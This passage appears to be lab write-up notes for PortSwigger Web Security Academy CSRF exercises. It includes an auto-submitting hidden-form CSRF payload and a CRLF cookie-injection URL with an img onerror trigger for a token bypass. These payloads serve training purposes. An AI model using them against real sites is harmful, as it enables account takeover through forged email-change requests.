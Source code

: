 - HTML payload:
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="zXqP4oMlBXDX16q4Qb5MgFawPZXaK4bW">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>

    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

# 5. CSRF where token is tied to non-session cookie
  
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the CSRF token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session.
3. Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
4. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
5. Close the Repeater tab and incognito browser.
6. Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
7. Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
    `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`
8. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab, ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `<script>` block, and instead add the following code to inject the cookie:
    `<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
10. Change the email address in your exploit so that it doesn't match your own.
11. Store the exploit, then click "Deliver to victim" to solve the lab.
